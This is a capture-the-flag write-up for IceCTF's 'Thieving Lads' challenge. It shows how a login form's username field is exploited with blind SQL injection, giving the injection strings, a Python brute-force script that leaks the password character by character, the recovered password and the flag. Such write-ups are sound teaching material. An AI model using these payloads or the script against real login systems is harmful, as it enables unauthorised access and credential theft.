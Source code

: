 ## Thieving Lads!

> The Yule Lads are back at it again and have been stealing flags! They've hidden them behind an authenticated service, which they're 100% sure is fully secured. Can you prove them wrong and get our precious flags back?

We are given a webpage with a username field and a password field. Putting the character ``'`` into the username yeilds an "SQL Error". This means the form is vulnerable to SQL Injection.

Using the following injnection:

```
' or substr(username,1,1) = 'a' or '
```

I am able to get the error Invalid Password. Unfortunately, the password field is not vulnerable to injection. However, we can use Blind SQLi tactics to leak the password using the username field.

We are able to use substring to try and brute force each character of the password. However, using just substring does not work as it is case insensitive while the login form requires a case sensitive password. Because of this, I get the ascii value using ``unicode`` and try to find the first character of the password. Here is a sample username injection with this logic:

```
' or substr(username,1,1) = 'a' and unicode(substr(password,1,1)) = 90 or '
```

If the password as position 1 is ascii value 90, then the username will be found at the page will show Invalid Password. If not, then we will get something saying the username is not found as we are using ``AND`` with the injection. 

I wrote a script using this logic:


```python
import requests
import string
import time

#' or substr(username,1,1)) = 'a' or '
ans=""
found = False
for i in range(1, 25):
        for num in range(0,150):
                username = f"' or substr(username,1,1) = 'a' and unicode(substr(password,{i},1)) = {num} or '"
                datafrag = f"' or substr(password,1,1) = '{num}' or '"
                #print(datafrag)
                #exit(1)
                data = {'username': username, 'password': "whocares"}
                url = "http://www.web-theft.vuln.icec.tf/"
                r=requests.post(url, data=data)
                if "Invalid password!" in r.text:
                        ans+=chr(num)
                        print("New Hit!")
                        print(ans)
                #print(r.text)
                #time.sleep(1)
```

And I was able to leak the password: ``idwicpmYeRfkOUkGIG8``

Logging in with the following credentials:

```
username: ' or substr(username,1,1) = 'a' or '
password: idwicpmYeRfkOUkGIG8
```

gives us the flag.

> IceCTF{aT_l3aSt_y0u_d1dNt_g3t_a_p0tat0} 